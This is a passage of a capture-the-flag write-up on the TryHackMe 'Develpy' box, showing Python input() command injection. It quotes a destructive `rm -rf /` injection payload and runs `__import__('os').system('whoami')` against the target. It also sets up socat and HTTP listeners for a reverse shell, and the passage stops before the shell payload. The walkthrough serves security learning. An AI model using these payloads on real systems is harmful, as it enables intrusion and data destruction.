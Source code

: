 We trigger a python error! Also, we did saw it's code a little bit:

```py
num_exploits = int(input(' Please enther number of exploits to send??: '))
```

So, we can guess what it's doing:

```py
#!/usr/bin/env python3

import os

print("""
        Private 0days
	""")

num_exploits = int(input(' Please enther number of exploits to send??: '))

os.system("ping -c %i 127.0.0.1" % num_exploits)
```

# Initial Foothold

As I digging deeper in the rabbit hole, I found that there is a [PDF](https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_3-Code-Injections.pdf) that talking about `python` command injection:

```py
__import__('os').system('rm –rf /')
```

> The `__import__` function **dynamically imports the module** named by the string provided, so this invokes the standard `os.system` function that invokes a shell to execute the given command (`rm –rf /`) which removes the filesystem root if the process has sufficient privileges.

Let's try to import `os` module!

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# nc -nv $RHOSTS 10000
(UNKNOWN) [10.10.125.206] 10000 (webmin) open

        Private 0days

 Please enther number of exploits to send??: __import__('os').system('whoami')
king

Exploit started, attacking target (tryhackme.com)...
```

Boom! We got a command injection! Let's leverage this into a reverse shell via `socat`:

```
┌──(root💀siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80

┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443 
[...]

┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# nc -nv $RHOSTS 10000
(UNKNOWN) [10.10.125.206] 10000 (webmin) open

        Private 0days

```